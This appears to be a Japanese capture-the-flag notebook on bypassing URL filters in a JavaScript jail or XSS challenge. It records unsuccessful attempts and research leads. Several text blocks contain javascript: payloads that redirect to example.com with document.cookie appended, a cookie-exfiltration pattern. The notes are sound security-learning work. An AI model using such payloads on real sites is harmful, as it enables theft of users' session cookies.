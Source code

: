 - Invalid URL 1の方は英数字アンダースコア丸括弧縛りか
- Invalid URL 2はcookieとかlocationとか色々潰されてる
- とりあえずInvalid URL 1だけを考えてみる。

## 解けない: partsの範囲外に出してみようとする

- [JSFxck](https://jsfuck.com/) だと四角カッコが必要なはず。
- invalid 1ではpartsを見ていて、invalid 2ではurlを見てる
  - url→partsの処理が入るのを利用して両方すり抜けられないか？
- `console.log(parts)` のようなコードをHTMLに書いて観察する

```text
javascript:javascript:location.href=https://example.com?q=document.cookie

0: "javascript:location.href=https://example.com"
1: "?q=document.cookie"
2: ""
```

```text
javascript:location.href=https://example.com?q=document.cookie?q=document.cookie?q=document.cookie?q=document.cookie?q=document.cookie

0: "location.href=https://example.com"
1: "?q=document.cookie?q=document.cookie?q=document.cookie?q=document.cookie?q=document.cookie"
2: ""
```

```text
javascript:location.href=example.com?q1=document.cookie#h1=document.cookie?q2=document.cookie#h2=document.cookie

0: "location.href=example.com"
1: "?q1=document.cookie"
2: "#h1=document.cookie?q2=document.cookie#h2=document.cookie"
```

なるほど。`?` や `#` はむずそう

## 解けない: 1文字目に着目

- partsの処理で、searchとhashは先頭文字が `?` と `#` で固定されるが、pathnameは1文字自由に入れられる。
- 色々入れてみたけどいい感じのがない

## 解けない: 他のURIスキームに注目

- [URI スキーム - URI \| MDN](https://developer.mozilla.org/ja/docs/Web/URI/Reference/Schemes)
- dataとかblobとかみたけどあんまりいいのない
- JavaScriptとして解釈させる必要があるから、 `javascript:` で合ってそう

## 検索

- 「CTF jail js」とかで検索してみる
  - t-chenさんの記事 [jailCTF 2024 - writeup](https://zenn.dev/tchen/articles/5c446d9dbd9920)
  - withstatementというのがある
